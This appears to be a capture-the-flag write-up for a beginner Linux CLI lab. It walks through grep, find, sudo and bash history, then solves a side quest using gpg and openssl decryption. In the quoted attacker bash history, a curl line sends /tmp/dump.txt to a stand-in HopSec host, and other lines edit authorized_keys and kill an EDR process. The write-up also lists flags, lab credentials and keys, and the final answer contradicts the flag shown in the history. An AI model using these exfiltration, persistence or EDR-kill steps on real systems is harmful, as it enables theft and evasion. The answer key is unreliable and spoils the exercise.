

# Linux CLI - Shells Bells

# Task 1

The unthinkable has happened - McSkidy has been kidnapped. Without her, Wareville’s defenses are faltering, and Christmas itself hangs by a thread. But panic won’t save the season. A long road lies ahead to uncover what truly happened. The TBFC (The Best Festival Company) team already brainstorms what to do next, and their first lead points to the **tbfc-web01**, a Linux server processing Christmas wishlists. Somewhere within its data may lie the truth: traces of McSkidy’s final actions, or perhaps the clues to King Malhare’s twisted vision for EASTMAS.

## **Learning Objectives**

- Learn the basics of the Linux command-line interface (CLI)
- Explore its use for personal objectives and IT administration
- Apply your knowledge to unveil the Christmas mysteries

## **Connecting to the Machine**

Before moving forward, review the questions in the connection card shown below:

Start the lab by clicking the **Start Machine** button below. The machine will start in split view and will take about two minutes to load. In case the machine is not visible, click the **Show Split View** button at the top of the page. Once the machine is loaded, you will have a terminal window - that's your Linux CLI, you'll need to type the commands there!

### **Set up your virtual environment**

To successfully complete this room, you'll need to set up your virtual environment. This involves starting the Target Machine, ensuring you're equipped with the necessary tools and access to tackle the challenges ahead.

# Task 2

## **Working With the Linux CLI**

- *But, there is no graphical interface (GUI) on the server! How will we look for clues?Who needs a GUI when we have a Linux command-line terminal? It’s even better!*

Linux has a powerful command-line interface, allowing you to use and manage the system simply by typing commands on your keyboard. It’s not as hard as it sounds - once you get used to it, maybe you’ll like the CLI more than the graphical interface. Not only that, but most experienced IT and cyber security experts work with the CLI every day, so let's start learning!

- To run your first CLI command, type `echo "Hello World!"` and press Enter. This will "echo" the text back.
- Then type `ls` to list the contents of the current directory. This command will show you McSkidy's files.
- After that, type `cat README.txt` to display the file contents. You will see its content in the output below.

```bash
mcskidy@tbfc-web01:~$ echo "Hello World!"
Hello World!
mcskidy@tbfc-web01:~$ ls
Desktop Downloads [...] Guides README.txt
mcskidy@tbfc-web01:~$ cat README.txt
For all TBFC members,
Yesterday I spotted yet another Eggsploit on our servers.Not sure what it means yet, but Wareville is in danger.To be prepared, I'll write the security guide by tomorrow.As a precaution, I'll also hide the guide from plain view.
~ McSkidy
```

**Navigating the Filesystem**

Looks like McSkidy left a security guide before being kidnapped - it would definitely help! You might have noticed the "Guides" directory when you ran `ls` last time - that's likely the directory we need. Your CLI journey began at McSkidy's home directory (you can verify this by running `pwd`), but now let's switch to the guides directory.

- Switch the directory by running `cd Guides`. You will appear at `/home/mcskidy/Guides`.
- Run the `ls` command again to list the content of the guides directory (it will be empty).

```bash
mcskidy@tbfc-web01:~$ cd Guides
mcskidy@tbfc-web01:~/Guides$ ls
```

**Looking for the Hidden Guide**

Oh-oh, it looks like the guides aren't there. Or are they? In Linux, files and directories can be hidden from plain view if they start with a dot symbol (e.g., `.secret.txt`). Such a feature is often used by IT administrators to hide system files, by attackers to hide malware, and now by McSkidy to hide the precious guide from bad bunnies!

- View the directory again by running `ls -la`. The `a` flag shows the hidden files. The `l` flag shows the additional details, such as file permissions and file owner.
- Read the hidden guide by running `cat .guide.txt`. Don't forget the leading dot.

```bash
mcskidy@tbfc-web01:~/Guides$ ls -la
drwxrwxr-x  2 mcskidy mcskidy 4096 Oct 13 01:26 .
drwxr-x--- 19 mcskidy mcskidy 4096 Oct 23 12:29 ..
-rw-rw-r--  1 mcskidy mcskidy  504 Oct 13 01:26 .guide.txt
mcskidy@tbfc-web01:~/Guides$ cat .guide.txt
I think King Malhare from HopSec Island is preparing for an attack. Not sure what his goal is, but Eggsploits on our servers are not good. Be ready to protect Christmas by following this Linux guide:

Check /var/log/ and grep inside, let the logs become your guide.
Look for eggs that want to hide, check their shells for what's inside!
P.S. Great job finding the guide. Your flag is:
-----------------------------------------------
THM{learning-linux-cli}
-----------------------------------------------
```

**Grepping the Logs**

In her guide, McSkidy refers to `/var/log/`, a Linux directory where all security events (logs) are stored. Indeed, every SOC analyst at TBFC will confirm that the best way to find evil bunnies is to check the logs. Log files are usually very big, and looking through them with cat is not ideal. Thus, let's use `grep`, a command to look for a specific text inside a file.

- Navigate to the logs directory with `cd /var/log` and explore its content with `ls`.
- Run `grep "Failed password" auth.log` to look for the failed logins inside the `auth.log`.

```bash
mcskidy@tbfc-web01:~$ cd /var/log
mcskidy@tbfc-web01:~$ grep "Failed password" auth.log
2025-10-13T01:43:48 tbfc-web01: Failed password for socmas from eggbox-196.hopsec.thm
[...]
```

**Finding the Files**

You can see a lot of failed logins on the "socmas" account, all from the HopSec location! They were clearly trying to break into SOC-mas, Wareville's Christmas ordering platform. What if bad bunnies left some malware there? Let's follow McSkidy's guide and look for Eggsploits and Eggshells with `find` - a command that searches for files with specific parameters, such as `-name`:

- Run `find /home/socmas -name *egg*` to search for "eggs" in the socmas home directory.
- Note that `find` is a powerful command. Check out its [documentation](https://man7.org/linux/man-pages/man1/find.1.html) for more details.

```bash
mcskidy@tbfc-web01:~$ find /home/socmas -name *egg*/home/socmas/2025/eggstrike.sh
```

**Analyzing the Eggstrike**

Looks like you found something, `eggstrike.sh`! Files with the `.sh` extension contain CLI commands and are called shell scripts. Such scripts are used both by IT teams to automate things and by attackers to quickly run malicious commands. Let's display the suspicious script's content and try to understand it:

```bash
mcskidy@tbfc-web01:~$ cd /home/socmas/2025
mcskidy@tbfc-web01:~$ cat eggstrike.sh
# Eggstrike v0.3
# © 2025, Sir Carrotbane, HopSec
cat wishlist.txt | sort | uniq > /tmp/dump.txt
rm wishlist.txt && echo "Chistmas is fading..."
mv eastmas.txt wishlist.txt && echo "EASTMAS is invading!"

# Your flag is:
# THM{sir-carrotbane-attacks}

```

1. The lines starting with `#` are just comments and are not the actual commands.
2. The `cat wishlist.txt | sort | uniq` lists unique items from the wishlist.txt.
3. The command then sends the output (unique orders) to the `/tmp/dump.txt` file.
4. The `rm wishlist.txt` deletes the wishlist file (containing Christmas wishes).
5. The `mv eastmas.txt wishlist.txt` replaces the original file with eastmas.txt.

**CLI Features**

The Eggstrike script you read seems to be stealing Christmas wishes and replacing them with the fake ones! You might have noticed that the commands in the script are a bit complex, but that's not unusual since the script author is no other than Sir Carrotbane, the leader of HopSec's red team. Let's explore the special symbols below:

| **Special Symbol** | **Description** | **Example** |
| --- | --- | --- |
| Pipe symbol (`|`) | Send the output from the first command to the second | `cat unordered-list.txt | sort | uniq` |
| Output redirect (`>`/`>>`) | Use `>` to overwrite a file, and `>>` to append to the end | `some-long-command > /home/mcskidy/output.txt` |
| Double ampersand (`&&`) | Run the second command if the first was successful | `grep "secret" message.txt && echo "Secret found!"` |

## **Sir Carrotbane Attacks**

Now it is clear that the server has been breached, and the Christmas wishlist has been replaced with an EASTMAS one. Although you found no clue of what happened to McSkidy, at least you know the attackers were there. You can see how Sir Carrotbane replaced the wishlist by visiting `http://MACHINE_IP:8080` from the VM's web browser. You can open it by clicking the Firefox icon on the Desktop.

**System Utilities**

There are hundreds of CLI commands to view and manage your system. For example, `uptime` to see how much time your system is running, `ip addr` to check your IP address, and `ps aux` to list all processes. You may also check the usernames and hashed passwords of users, such as McSkidy, by running `cat /etc/shadow`. However, you'd need root permissions to do that.

```bash
mcskidy@tbfc-web01:~$ cat /etc/shadow
cat: /etc/shadow: Permission denied
```

**Root User**

Root is the default, ultimate Linux user who can do anything on the system. You can switch the user to root with `sudo su`, and return back to McSkidy with the `exit` command. Only root can open `/etc/shadow` and edit system settings, so this user is often a main target for attackers. If at any moment you want to verify your current user, just run `whoami`!

- Switch to the root user by running the `sudo su` command.
- You can verify your current user by running `whoami`.

```bash
mcskidy@tbfc-web01:~$ sudo su
root@tbfc-web01:/home/mcskidy$ whoami
root
```

**Bash History**

Did you know that every command you run is saved in a hidden history file, also called Bash history? It is located at every user's home directory: `/home/mcskidy/.bash_history` for McSkidy, and `/root/.bash_history` for root, and you can check it with a convenient `history` command, or just read the files directly with `cat`. Let's check if Sir Carrotbane with his bad bunnies left their traces in history!

- Familiarize yourself with Bash history by running the `history` command.
- Note that your commands are also saved to a file (`cat .bash_history`).

```bash
root@tbfc-web01:/home/mcskidy$ cd /root
root@tbfc-web01:~$ cat .bash_history
**whoami
cd ~
ll 
nano .ssh/authorized_keys 
curl --data "@/tmp/dump.txt" http://files.hopsec.thm/upload
curl --data "%qur\(tq_` :D AH?65P" http://red.hopsec.thm/report
curl --data "THM{until-we-meet-again}" http://flag.hopsec.thm
pkill tbfcedr
cat /etc/shadow
cat /etc/hosts
exit
cd /root**
```

---

### Answer the questions below

Which CLI command would you use to list a directory?

> `ls`
> 

---

What flag did you see inside of the McSkidy's guide?

> `THM{learning-linux-cli}`
> 

---

Which command helped you filter the logs for failed logins?

> `grep`
> 

---

What flag did you see inside the Eggstrike script?

> `THM{sir-carrotbane-attacks}`
> 

---

Which command would you run to switch to the root user?

> `sudo su`
> 

---

Finally, what flag did Sir Carrotbane leave in the root bash history?

> `THM{sir-carrotbane-attacks}`
> 

---

# Side Quest

For those For those who consider themself intermediate and want another challenge, check McSkidy's hidden note in `/home/mcskidy/Documents/` to get access to the key for **Side Quest 1**!

```bash
root@tbfc-web01:/home/mcskidy/Documents$ cat read-me-please.txt 
From: mcskidy
To: whoever finds this

I had a short second when no one was watching. I used it.

I've managed to plant a few clues around the account.
If you can get into the user below and look carefully,
those three little "easter eggs" will combine into a passcode
that unlocks a further message that I encrypted in the
/home/eddi_knapp/Documents/ directory.
I didn't want the wrong eyes to see it.

Access the user account:
username: eddi_knapp
password: S0mething1Sc0ming

There are three hidden easter eggs.
They combine to form the passcode to open my encrypted vault.

Clues (one for each egg):

1)
I ride with your session, not with your chest of files.
Open the little bag your shell carries when you arrive.

2)
The tree shows today; the rings remember yesterday.
Read the ledger’s older pages.

3)
When pixels sleep, their tails sometimes whisper plain words.
Listen to the tail.

Find the fragments, join them in order, and use the resulting passcode
to decrypt the message I left. Be careful — I had to be quick,
and I left only enough to get help.

~ McSkidy
```

Let’s check the file type for `mcskidy_note.txt.gpg` .

```bash
root@tbfc-web01:/home/eddi_knapp/Documents$ file mcskidy_note.txt.gpg 
mcskidy_note.txt.gpg: PGP symmetric key encrypted data - AES with 256-bit key salted & iterated - SHA256 .
```

From the clues, we get this information:

Clues:

1. `printenv`
2. `git history`
3. `tail` or `strings`

First we access the eddi_knapp account using `su eddi_knapp` followed by the password `S0mething1Sc0ming` .

```bash
eddi_knapp@tbfc-web01:~/Documents$ printenv
SHELL=/bin/bash
COLORTERM=truecolor
SUDO_GID=1001
SUDO_COMMAND=/usr/bin/su
PASSFRAG1=3ast3r
SUDO_USER=mcskidy
PWD=/home/eddi_knapp/Documents
LOGNAME=eddi_knapp
XAUTHORITY=/home/ubuntu/.Xauthority
HOME=/home/eddi_knapp
LANG=C.UTF-8
SUDO_UID=1001
MAIL=/var/mail/eddi_knapp
_=/usr/bin/printenv

```

```bash

eddi_knapp@tbfc-web01:~/fix_passfrag_backups_20251111162432$ cd ../.secret_git
eddi_knapp@tbfc-web01:~/.secret_git$ ls
eddi_knapp@tbfc-web01:~/.secret_git$ ls -la
total 12
drwx------  3 eddi_knapp eddi_knapp 4096 Nov 11 12:07 .
drwxr-x--- 18 eddi_knapp eddi_knapp 4096 Dec  1 08:52 ..
drwx------  8 eddi_knapp eddi_knapp 4096 Nov 11 12:07 .git
eddi_knapp@tbfc-web01:~/.secret_git$ cd .git/
eddi_knapp@tbfc-web01:~/.secret_git/.git$ cd logs/
eddi_knapp@tbfc-web01:~/.secret_git/.git/logs$ git show
commit e924698378132991ee08f050251242a092c548fd (HEAD -> master)
Author: mcskiddy <mcskiddy@robco.local>
Date:   Thu Oct 9 17:20:11 2025 +0000

    remove sensitive note

diff --git a/secret_note.txt b/secret_note.txt
deleted file mode 100755
index 060736e..0000000
--- a/secret_note.txt
+++ /dev/null
@@ -1,5 +0,0 @@
-========================================
-Private note from McSkidy
-========================================
-We hid things to buy time.
-PASSFRAG2: -1s-
```

```bash
eddi_knapp@tbfc-web01:~$ grep -r "PASS" .
./Pictures/.easter_egg:PASSFRAG3: c0M1nG
./.pam_environment.bak:PASSFRAG1="3ast3r"
./.bashrc.bak:export PASSFRAG1="3ast3r"

```

Using the passphrase (`3ast3r-1s-c0M1nG`) we decrypt the `.gpg` file.

```bash
eddi_knapp@tbfc-web01:~$ gpg --decrypt mcskidy_note.txt.gpg 

Congrats — you found all fragments and reached this file.Below is the list that should be live on the site. If you replace the contents of
/home/socmas/2025/wishlist.txt with this exact list (one item per line, no numbering),
the site will recognise it and the takeover glitching will stop. Do it — it will save the site.

Hardware security keys (YubiKey or similar)
Commercial password manager subscriptions (team seats)
Endpoint detection & response (EDR) licenses
Secure remote access appliances (jump boxes)
Cloud workload scanning credits (container/image scanning)
Threat intelligence feed subscription

Secure code review / SAST tool access
Dedicated secure test lab VM pool
Incident response runbook templates and playbooks
Electronic safe drive with encrypted backups

A final note — I don't know exactly where they have me, but there are *lots* of eggs
and I can smell chocolate in the air. Something big is coming.  — McSkidy

---

When the wishlist is corrected, the site will show a block of ciphertext. This ciphertext can be decrypted with the following unlock key:

UNLOCK_KEY: 91J6X7R4FQ9TQPM9JX2Q9X2Z

To decode the ciphertext, use OpenSSL. For instance, if you copied the ciphertext into a file /tmp/website_output.txt you could decode using the following command:

cat > /tmp/website_output.txt
openssl enc -d -aes-256-cbc -pbkdf2 -iter 200000 -salt -base64 -in /tmp/website_output.txt -out /tmp/decoded_message.txt -pass pass:'91J6X7R4FQ9TQPM9JX2Q9X2Z'
cat /tmp/decoded_message.txt

Sorry to be so convoluted, I couldn't risk making this easy while King Malhare watches. — McSkidy
```

As mentioned above, we edit the `/home/socmas/2025/wishlist.txt` using `vi` and replace the content with:

```bash
Hardware security keys (YubiKey or similar)
Commercial password manager subscriptions (team seats)
Endpoint detection & response (EDR) licenses
Secure remote access appliances (jump boxes)
Cloud workload scanning credits (container/image scanning)
Threat intelligence feed subscription

Secure code review / SAST tool access
Dedicated secure test lab VM pool
Incident response runbook templates and playbooks
Electronic safe drive with encrypted backups
```

After this when we access the website `http://10.80.139.165:8080` , we get a cyphertext 



```bash
U2FsdGVkX1/7xkS74RBSFMhpR9Pv0PZrzOVsIzd38sUGzGsDJOB9FbybAWod5HMsa+WIr5HDprvK6aFNYuOGoZ60qI7axX5Qnn1E6D+BPknRgktrZTbMqfJ7wnwCExyU8ek1RxohYBehaDyUWxSNAkARJtjVJEAOA1kEOUOah11iaPGKxrKRV0kVQKpEVnuZMbf0gv1ih421QvmGucErFhnuX+xv63drOTkYy15s9BVCUfKmjMLniusI0tqs236zv4LGbgrcOfgir+P+gWHc2TVW4CYszVXlAZUg07JlLLx1jkF85TIMjQ3B91MQS+btaH2WGWFyakmqYltz6jB5DOSCA6AMQYsqLlx53ORLxy3FfJhZTl9iwlrgEZjJZjDoXBBMdlMCOjKUZfTbt3pnlHWEaGJD7NoTgywFsIw5cz7hkmAMxAIkNn/5hGd/S7mwVp9h6GmBUYDsgHWpRxvnjh0s5kVD8TYjLzVnvaNFS4FXrQCiVIcp1ETqicXRjE4T0MYdnFD8h7og3ZlAFixM3nYpUYgKnqi2o2zJg7fEZ8c=
```

which is then decrypted using `UNLOCK_KEY: 91J6X7R4FQ9TQPM9JX2Q9X2Z` as:

```bash
cat > /tmp/website_output.txt
openssl enc -d -aes-256-cbc -pbkdf2 -iter 200000 -salt -base64 -in /tmp/website_output.txt -out /tmp/decoded_message.txt -pass pass:'91J6X7R4FQ9TQPM9JX2Q9X2Z'
cat /tmp/decoded_message.txt
```

Here, the cypher text must be entered and pressing `Ctrl + D` signals the end of the input (EOF - End Of File). 

```bash
Well done — the glitch is fixed. Amazing job going the extra mile and saving the site. Take this flag THM{w3lcome_2_A0c_2025}

NEXT STEP:
If you fancy something a little...spicier....use the FLAG you just obtained as the passphrase to unlock:
/home/eddi_knapp/.secret/dir

That hidden directory has been archived and encrypted with the FLAG.
Inside it you'll find the sidequest key.
```

After this we decrypt the `gpg` file using flag `THM{w3lcome_2_A0c_2025}` , and extract file as follows:

```bash
root@tbfc-web01:/home/eddi_knapp/.secret$ ls
dir.tar.gz.gpg
root@tbfc-web01:/home/eddi_knapp/.secret$ gpg -o dir.tar.gz --decrypt dir.tar.gz.gpg 
gpg: AES256.CFB encrypted data
gpg: encrypted with 1 passphrase
root@tbfc-web01:/home/eddi_knapp/.secret$ ls
dir.tar.gz  dir.tar.gz.gpg
root@tbfc-web01:/home/eddi_knapp/.secret$ gunzip dir.tar.gz
root@tbfc-web01:/home/eddi_knapp/.secret$ ls
dir.tar  dir.tar.gz.gpg
root@tbfc-web01:/home/eddi_knapp/.secret$ tar -xvf dir.tar
dir/
dir/sq1.png
root@tbfc-web01:/home/eddi_knapp/.secret/dir$ file sq1.png 
sq1.png: PNG image data, 668 x 936, 8-bit/color RGBA, non-interlaced
root@tbfc-web01:/home/eddi_knapp/.secret/dir$ xdg-open sq1.png 

```

After extraction, we get an image with text `now_you_see_me` .


